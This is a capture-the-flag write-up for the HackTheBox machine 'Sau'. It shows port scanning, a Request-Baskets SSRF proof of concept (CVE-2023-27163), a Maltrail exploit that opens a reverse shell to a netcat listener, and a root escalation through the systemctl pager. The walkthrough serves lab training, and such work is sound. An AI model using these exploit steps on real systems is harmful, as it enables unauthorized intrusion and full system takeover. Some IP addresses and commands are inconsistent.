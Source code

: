 ```yaml
---
layout: page
title: "Sau-Linux-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/1ea2980b9dc2d11cf6a3f82f10ba8702.webp
---
```


# Sau

HackTheBox: Medium

<aside>
💡 Sau is a medium linux machine which exploit vulnerabilities due to older versions

</aside>

## 1: Enumeration

- Scanning ports

```bash
$ sudo nmap -n -Pn -p- 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 21:32 PDT
Nmap scan report for 10.129.229.26
Host is up (0.27s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 1388.12 seconds
```

We have a web service at 55555 it allows inspect and depure http requests 

It is vulnerable to (CVE-2023-27163) 

```bash
$ ./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "sbqmby" proxy basket...
> Basket created!
> Accessing http://10.10.11.234:55555/xsikpk now makes the server request to http://127.0.0.1:80.
> Authorization: FfWcOUyPi4nGFDSfzSDz_9NrvirREpBzXqJQoiy0-2DqK5NM
```

That POC make a reques to 80 port and we can get to it

## 2: User flag

![Untitled]({{ '/assets/images/6fd0d9dd-d49e-4e79-91de-37466e0d34f5-export-216ae02a-fe78-48b7-9c84-c96a4313992c/6fd0d9dd-d49e-4e79-91de-37466e0d34f5-export-216ae02a-fe78-48b7-9c84-c96a4313992c_Untitled.png' | relative_url }})

We find a Maltrail service running with an unprotected version

We find another POC 

```bash
$ python3 exploit.py 10.10.14.246 4444 http://10.10.11.234:55555/sbqmby
Running exploit on http://10.10.11.234:55555/sbqmby
```

```bash
$ nc -nlvp 4444
listening on [any] 4444...
connect to [10.10.14.246] from (UNKNOWN) [10..10.11.234] 38442
$ whoami
whoami
puma
```

## 3: Priv esc

Check for privileges

```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

It appears that we are able to examine the trail.service's status.

```bash
sudo /usr/bin/systemctl status

while it load

!/bin/sh -- !sh

We are root

```

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
